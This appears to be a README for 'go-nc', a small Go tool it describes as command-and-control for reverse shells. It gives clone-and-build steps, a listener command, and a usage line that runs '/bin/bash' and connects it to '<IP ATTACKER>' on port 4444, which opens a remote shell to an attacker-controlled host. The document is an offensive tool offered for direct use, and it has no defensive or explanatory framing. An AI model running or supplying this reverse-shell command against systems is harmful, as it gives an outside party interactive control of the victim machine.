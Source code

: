 # go-nc
Simple Command & Control for revshells in pure Go

# Build
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build .
```

# Usage

### Reverse shell
```bash
./go-nc -host <IP ATTACKER> -port 4444 -exec /bin/bash
```

### Server
```bash
./go-nc -listen
```